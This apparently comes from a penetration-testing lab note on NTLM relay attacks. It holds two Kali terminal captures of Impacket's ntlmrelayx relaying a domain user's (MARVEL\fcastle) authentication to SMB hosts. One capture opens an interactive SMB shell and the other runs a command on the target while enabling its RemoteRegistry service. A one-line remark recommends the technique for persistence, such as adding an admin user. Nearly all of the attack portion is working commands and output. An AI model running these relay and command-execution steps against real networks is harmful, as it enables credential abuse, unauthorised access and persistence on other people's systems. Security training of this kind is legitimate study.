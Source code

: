 ntlmrelayx can be used to run a single command (best used for persistence - adding an admin user, etc.)

```
┌─(~/Documents/PEH)─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────(kali@kali:pts/3)─┐
└─(13:50:14)──> ntlmrelayx.py -tf targets.txt -smb2support -i                                                                               ──(Wed,Jun26)─┘
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
[*] Protocol Client MSSQL loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Running in relay mode to hosts in targetfile
[*] Setting up SMB Server
[*] Setting up HTTP Server

[*] Servers started, waiting for connections
[*] SMBD-Thread-3: Received connection from 192.168.95.133, attacking target smb://192.168.95.134
[*] Authenticating against smb://192.168.95.134 as MARVEL\fcastle SUCCEED
[*] Started interactive SMB client shell via TCP on 127.0.0.1:11000
[*] SMBD-Thread-5: Received connection from 192.168.95.133, attacking target smb://192.168.95.133
[-] Authenticating against smb://192.168.95.133 as MARVEL\fcastle FAILED
[-] No share selected
^C%                                                                                                                                                         ┌─(~/Documents/PEH)─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────(kali@kali:pts/3)─┐
└─(13:52:35)──> ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"                                                                      ──(Wed,Jun26)─┘
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
[*] Protocol Client MSSQL loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Running in relay mode to hosts in targetfile
[*] Setting up SMB Server
[*] Setting up HTTP Server

[*] Servers started, waiting for connections
[*] SMBD-Thread-3: Received connection from 192.168.95.133, attacking target smb://192.168.95.134
[*] Authenticating against smb://192.168.95.134 as MARVEL\fcastle SUCCEED
[*] SMBD-Thread-5: Received connection from 192.168.95.133, attacking target smb://192.168.95.133
[-] Authenticating against smb://192.168.95.133 as MARVEL\fcastle FAILED
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
```